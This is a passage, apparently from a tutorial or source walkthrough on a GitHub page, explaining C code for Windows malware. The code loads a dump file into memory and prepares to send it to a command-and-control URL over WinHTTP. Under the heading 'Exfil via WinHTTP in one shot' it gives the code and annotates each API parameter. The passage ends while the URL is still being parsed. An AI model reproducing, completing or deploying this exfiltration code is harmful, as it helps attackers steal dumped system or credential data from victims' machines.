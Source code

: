 - Allocate `fileSize` bytes on the heap to hold the entire dump.

`ReadFile` parameters:

1. `hFile`: handle to the open file.
2. `fullBuffer`: destination buffer.
3. `fileSize`: number of bytes to read.
4. `&bytesRead`: receives how many bytes were actually read.
5. `NULL`: no OVERLAPPED structure (synchronous read).

#### Exfil via WinHTTP in one shot

```
{
        // Convert URL to wide-char
        size_t needed = MultiByteToWideChar(CP_UTF8, 0, c2_url, -1, NULL, 0);
        WCHAR* wUrl = (WCHAR*)malloc(needed * sizeof(WCHAR));
        MultiByteToWideChar(CP_UTF8, 0, c2_url, -1, wUrl, (int)needed);
```

**MultiByteToWideChar** (first call):

1. `CP_UTF8`: code page of source string (`c2_url` is UTF-8 or ANSI assumed).
2. `dwFlags=0`: no special flags.
3. `c2_url`: source ANSI/UTF-8 string, null-terminated.
4. `-1`: indicates source includes null-terminator; function calculates length automatically.
5. `NULL`: no output buffer provided, so function returns required number of wide chars (including null).
6. `0`: size of output buffer = 0 since querying size.

`WCHAR* wUrl = malloc(needed * sizeof(WCHAR));`

- Allocate buffer for wide-char URL.

**MultiByteToWideChar** (second call):

- Same parameters except now providing `wUrl` buffer and size `needed`.
- Converts `c2_url` into wide-character string `wUrl`.

```
URL_COMPONENTSW urlComp = {0};
        wchar_t hostW[256] = {0}, pathW[1024] = {0};
        urlComp.dwStructSize    = sizeof(urlComp);
        urlComp.lpszHostName    = hostW;
        urlComp.dwHostNameLength= _countof(hostW);
        urlComp.lpszUrlPath     = pathW;
        urlComp.dwUrlPathLength = _countof(pathW);
```

Prepare a `URL_COMPONENTSW` structure for parsing:

- `URL_COMPONENTSW urlComp = {0};` zero-initialize all fields.
- `wchar_t hostW[256] = {0}; wchar_t pathW[1024] = {0};` buffers for hostname and path.
- `urlComp.dwStructSize = sizeof(urlComp);`: must set size before call.
- `urlComp.lpszHostName = hostW;`: pointer to receive host name.
- `urlComp.dwHostNameLength = _countof(hostW);`: max length in WCHARs (including null).
- `urlComp.lpszUrlPath = pathW;`: pointer to receive URL path.
- `urlComp.dwUrlPathLength = _countof(pathW);`: max length.
